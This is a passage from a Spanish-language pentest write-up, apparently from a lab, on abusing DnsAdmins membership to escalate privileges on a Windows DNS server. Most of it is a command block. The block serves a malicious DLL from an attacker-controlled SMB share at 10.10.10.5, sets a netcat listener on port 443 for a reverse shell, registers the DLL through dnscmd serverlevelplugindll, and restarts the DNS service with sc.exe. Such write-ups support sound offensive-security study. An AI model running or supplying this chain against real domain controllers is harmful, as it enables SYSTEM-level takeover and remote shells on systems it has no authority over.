


#### 2º FORMA MANUAL: DNSCMD + SC
En esta segunda forma, es lo mismo a nivel de funcionamiento pero con una diferencia. Para poder usar el binario nativo de administración *sc.exe* necesitaremos permisos especiales a nivel del SCM (Administrador de Control de Servicios). 

Por defecto, Windows restringe esta acción solo a administradores locales, bloqueando a los usuarios de **DnsAdmins** a menos que se modifiquen explícitamente sus permisos mediante una cadena SDDL que es lo que hicimos en la fase de configuración de esta técnica y por ello nos deja usarlo.

```bash
# Levantrar recurso compartido a nivel de red
impacket-smbserver smbFolder $(pwd) -smb2support

# Estar a la escucha por el puerto 443 para cuando se ejecute la DLL
nc -nlvp 443

# Cargar DLL maliciosa a través de nuestro share
dnscmd.exe /config /serverlevelplugindll \\10.10.10.5\smbFolder\pwned.dll

# Parar el servicio DNS
sc.exe stop dns

# Arrancar el servicio DNS
sc.exe start dns
```


